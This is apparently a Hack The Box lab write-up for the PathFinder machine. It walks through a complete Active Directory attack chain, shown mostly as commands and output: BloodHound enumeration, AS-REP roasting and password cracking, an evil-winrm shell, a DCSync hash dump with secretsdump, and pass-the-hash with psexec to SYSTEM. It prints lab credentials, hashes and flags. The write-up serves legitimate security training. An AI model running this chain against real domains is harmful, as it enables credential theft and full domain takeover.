


# PathFinder

HTB > Starting Point > PathFinder

# Enumeration (ports)

~~~
unknown@kali:/data$ sudo masscan -p 1-65535 10.10.10.30 -e tun0 --rate=1000
[sudo] password for unknown: 

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2020-06-13 15:52:45 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 49716/tcp on 10.10.10.30                                  
Discovered open port 49677/tcp on 10.10.10.30                                  
Discovered open port 49683/tcp on 10.10.10.30                                  
Discovered open port 47001/tcp on 10.10.10.30                                  
Discovered open port 49695/tcp on 10.10.10.30                                  
Discovered open port 49674/tcp on 10.10.10.30                                  
Discovered open port 49666/tcp on 10.10.10.30                                  
Discovered open port 139/tcp on 10.10.10.30                                    
Discovered open port 3268/tcp on 10.10.10.30                                   
Discovered open port 636/tcp on 10.10.10.30                                    
Discovered open port 464/tcp on 10.10.10.30                                    
Discovered open port 389/tcp on 10.10.10.30                                    
Discovered open port 49676/tcp on 10.10.10.30                                  
Discovered open port 49664/tcp on 10.10.10.30                                  
Discovered open port 53/tcp on 10.10.10.30                                     
Discovered open port 445/tcp on 10.10.10.30
~~~

Port 88 is typically associated with Kerberos and port 389 with LDAP, which indicates that this is a Domain Controller. We note that WinRM is enabled on port 5985.

# Enumeration (Active Directory)

Using the credentials we obtained in a previous machine; `sandra:Password1234!`, we can attempt to enumerate Active Directory. We can achieve this using BloodHound. There is a python bloodhound injester, which can be found [here](https://github.com/fox-it/BloodHound.py). It can also be installed using pip: `pip install bloodhound`.

~~~
unknown@kali:/data/tmp$ python3 -m pip install --user bloodhound
unknown@kali:/data/tmp$ bloodhound-python \
	-d megacorp.local \
	-u sandra -p "Password1234!" \
	-gc pathfinder.megacorp.local \
	-c all -ns 10.10.10.30
INFO: Found AD domain: megacorp.local
INFO: Connecting to LDAP server: Pathfinder.MEGACORP.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: Pathfinder.MEGACORP.LOCAL
INFO: Found 5 users
INFO: Connecting to GC LDAP server: pathfinder.megacorp.local
INFO: Found 51 groups
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: Pathfinder.MEGACORP.LOCAL
INFO: Done in 00M 07S
~~~

The json files should now be in the working directory, ready to be imported into BloodHound.

~~~
unknown@kali:/data/tmp$ ls -l *.json
-rw-r--r-- 1 unknown unknown  3222 Jun 13 18:27 computers.json
-rw-r--r-- 1 unknown unknown  3243 Jun 13 18:27 domains.json
-rw-r--r-- 1 unknown unknown 85362 Jun 13 18:27 groups.json
-rw-r--r-- 1 unknown unknown 12521 Jun 13 18:27 users.json
~~~

**Installing and Starting BloodHound**

For more details about BloodHound, refer to [this tutorial](https://github.com/sebastiendamaye/TryHackMe/tree/master/Post-Exploitation_Basics#task-3-enumeration-w-bloodhound).

First, we need to install neo4j and BloodHound.

~~~
unknown@kali:/data/tmp$ sudo apt install neo4j bloodhound
~~~

Next, we need to configure the neo4j service. We can accomplish this by running the following command

~~~
unknown@kali:/data/tmp$ sudo neo4j console
~~~

You will be then prompted to change your password. Next, we start BloodHound

~~~
unknown@kali:/data/tmp$ bloodhound --no-sandbox
~~~

Ensure you have a connection to the database; indicated by a ✔️ symbol at the top of the three input fields. The default username is neo4j with the password previously set.

Opening BloodHound, we can drag and drop the .json files, and BloodHound will begin to analyze the data.

A better option is to zip all `*.json` files and drag the resulting zip to BloodHound to import all files in one shot.

~~~
unknown@kali:/data/tmp$ zip megacorp.zip *.json
  adding: computers.json (deflated 74%)
  adding: domains.json (deflated 85%)
  adding: groups.json (deflated 95%)
  adding: users.json (deflated 91%)
~~~ 

We can select various queries, of which some very useful ones are `Shortest Paths to High value Targets` and `Find Principles with DCSync Rights`.

**Shortest Paths from Domain Users to High Value Targets**

**Find Principles with DCSync Rights**

While the latter query returns this:

We can see that the `svc_bes` has `GetChangesAll` privileges to the domain. This means that the account has the ability to request replication data from the domain controller, and gain sensitive information such as user hashes.

# Lateral Movement

It's worth checking if Kerberos pre-authentication has been disabled for this account, which means it is vulnerable to [ASREPRoasting](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/). We can check this using a tool such as Impacket's `GetNPUsers`.

~~~
unknown@kali:/data/tmp$ GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for svc_bes
$krb5asrep$23$svc_bes@MEGACORP.LOCAL:00c4e7b0ce1ad503425a4b0161021fe5$8d8d475c06d1fb191d431055f3dc5cf63e22ebcbb6cdf4a7cb122e8f16374f221327e13be255eb60df449969b864abf3322c2c69c16738b9cbbd47ff1a67727656d7c7581c0df55280d19d4553c92fe86fb313fd7fb843bd2e7796183d005edf241d9c89917239f29834ce6595f7359911e427b21a16154e552536dd1e1c66280e240ee9ea6d9d7ca5c462c5abf9a57ca46db4af7c4a43b4261f5560257c58e6e1cc51ebe742dbeb903a7379ae7e2db8882018922feed8ae18ee799621de5f64bf0c10284e66a5017a2f6a13b0ff132e99e715ecded126bdbd6347dd93a0cfff96a586fb5682ce5e04b2960b67401854
~~~

We obtain the TGT ticket for the `svc_bes` and save it to a file called `hash`. We can use Hashcat or JTR in conjunction with `rockyou.txt` to obtain the plaintext password `Sheffield19`.

~~~
unknown@kali:/data/tmp$ /data/src/john/run/john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Sheffield19      ($krb5asrep$23$svc_bes@MEGACORP.LOCAL)
1g 0:00:00:18 DONE (2020-06-13 21:28) 0.05387g/s 571282p/s 571282c/s 571282C/s Sherbear94..Sheepy04
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
~~~

It is now possible to access the server as `svc_bes` using WinRM, and gain `user.txt`.

~~~
unknown@kali:/data/tmp$ sudo gem install evil-winrm
unknown@kali:/data/tmp$ evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_bes\Documents> whoami
megacorp\svc_bes
*Evil-WinRM* PS C:\Users\svc_bes\Documents> more ..\Desktop\user.txt
b05fb166688a8603d970c6d033f637f1

*Evil-WinRM* PS C:\Users\svc_bes\Documents> 
~~~

User flag: `b05fb166688a8603d970c6d033f637f1`

# Privilege Escalation

In order to leverage the `GetChangesAll` permission, we can use Impacket's [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to perform a DCSync attack and dump the NTLM hashes of all domain users.

~~~
unknown@kali:/data/tmp$ secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:f9f700dbf7b492969aac5943dab22ff3:::
svc_bes:1104:aad3b435b51404eeaad3b435b51404ee:0d1ce37b8c9e5cf4dbd20f5b88d5baca:::
sandra:1105:aad3b435b51404eeaad3b435b51404ee:29ab86c5c4d2aab957763e5c1720486d:::
PATHFINDER$:1000:aad3b435b51404eeaad3b435b51404ee:31127e243e15f26a3bd4df6559b838d3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:056bbaf3be0f9a291fe9d18d1e3fa9e6e4aff65ef2785c3fdc4f6472534d614f
Administrator:aes128-cts-hmac-sha1-96:5235da455da08703cc108293d2b3fa1b
Administrator:des-cbc-md5:f1c89e75a42cd0fb
krbtgt:aes256-cts-hmac-sha1-96:d6560366b08e11fa4a342ccd3fea07e69d852f927537430945d9a0ef78f7dd5d
krbtgt:aes128-cts-hmac-sha1-96:02abd84373491e3d4655e7210beb65ce
krbtgt:des-cbc-md5:d0f8d0c86ee9d997
svc_bes:aes256-cts-hmac-sha1-96:2712a119403ab640d89f5d0ee6ecafb449c21bc290ad7d46a0756d1009849238
svc_bes:aes128-cts-hmac-sha1-96:7d671ab13aa8f3dbd9f4d8e652928ca0
svc_bes:des-cbc-md5:1cc16e37ef8940b5
sandra:aes256-cts-hmac-sha1-96:2ddacc98eedadf24c2839fa3bac97432072cfac0fc432cfba9980408c929d810
sandra:aes128-cts-hmac-sha1-96:c399018a1369958d0f5b242e5eb72e44
sandra:des-cbc-md5:23988f7a9d679d37
PATHFINDER$:aes256-cts-hmac-sha1-96:948294a2708ba0a1d36304404c71f70d2aaa38df4dbc49e63a31eb6611249db3
PATHFINDER$:aes128-cts-hmac-sha1-96:2aa7ad6034d5374dbcccf3a0f8ec0ed2
PATHFINDER$:des-cbc-md5:32f44fb9dce325f7
[*] Cleaning up... 
unknown@kali:/data/tmp$ 
~~~

Using the default domain administrator NTLM hash, we can use this in a PTH attack to gain elevated access to the system. For this, we can use Impacket's psexec.py.

~~~
psexec.py megacorp.local/administrator@10.10.10.30 -hashes <NTML hash>:<NTLM hash>
~~~

~~~
unknown@kali:/data/tmp$ psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.30.....
[*] Found writable share ADMIN$
[*] Uploading file JELeSnSZ.exe
[*] Opening SVCManager on 10.10.10.30.....
[*] Creating service Zbrk on 10.10.10.30.....
[*] Starting service Zbrk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>more \users\administrator\desktop\root.txt
ee613b2d048303e5fd4ac6647d944645
~~~

Root flag: `ee613b2d048303e5fd4ac6647d944645`
